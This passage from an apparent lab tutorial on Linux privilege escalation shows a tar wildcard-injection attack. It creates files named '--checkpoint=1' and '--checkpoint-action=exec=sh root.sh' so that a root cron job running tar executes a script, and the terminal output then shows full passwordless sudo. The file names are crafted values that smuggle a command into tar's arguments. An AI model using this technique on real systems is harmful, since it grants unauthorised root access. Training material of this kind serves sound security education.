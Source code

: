 <span class="token info punctuation"><span class="token user">htb_student@NIX02</span><span class="token punctuation">:</span><span class="token path">~</span></span><span class="token command"><span class="token shell-symbol important">$</span> <span class="token bash language-bash"><span class="token builtin class-name">echo</span> <span class="token string">""</span> <span class="token operator">&gt;</span> <span class="token string">"--checkpoint-action=exec=sh root.sh"</span></span></span>
<span class="token info punctuation"><span class="token user">htb_student@NIX02</span><span class="token punctuation">:</span><span class="token path">~</span></span><span class="token command"><span class="token shell-symbol important">$</span> <span class="token bash language-bash"><span class="token builtin class-name">echo</span> <span class="token string">""</span> <span class="token operator">&gt;</span> --checkpoint<span class="token operator">=</span><span class="token number">1</span></span></span>
</code></pre></div></div>
<p>We can check and see that the necessary files were created.</p>
<div class="window_container"><div class="window_content">
                <div class="window_top">
                    <span class="window_dot bg-danger"></span>
                    <span class="window_dot bg-warning"></span>
                    <span class="window_dot bg-success"></span>
                    <span class="window_title"></span>
                </div>
            <pre class=" language-shell-session" style="line-height: 0px;"><code class=" language-shell-session"><span class="token info punctuation"><span class="token user">htb_student@NIX02</span><span class="token punctuation">:</span><span class="token path">~</span></span><span class="token command"><span class="token shell-symbol important">$</span> <span class="token bash language-bash"><span class="token function">ls</span> -la</span></span>total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 cliff.moore cliff.moore    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 cliff.moore cliff.moore    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 cliff.moore cliff.moore   60 Aug 31 23:11 root.sh
</span></code></pre></div></div>
<p>Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly.</p>
<div class="window_container"><div class="window_content">
                <div class="window_top">
                    <span class="window_dot bg-danger"></span>
                    <span class="window_dot bg-warning"></span>
                    <span class="window_dot bg-success"></span>
                    <span class="window_title"></span>
                </div>
            <pre class=" language-shell-session" style="line-height: 0px;"><code class=" language-shell-session"><span class="token info punctuation"><span class="token user">htb_student@NIX02</span><span class="token punctuation">:</span><span class="token path">~</span></span><span class="token command"><span class="token shell-symbol important">$</span> <span class="token bash language-bash"><span class="token function">sudo</span> -l</span></span>

<span class="token output">Matching Defaults entries for cliff.moore on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cliff.moore may run the following commands on NIX02:
    (root) NOPASSWD: ALL
</span></code></pre></div></div>
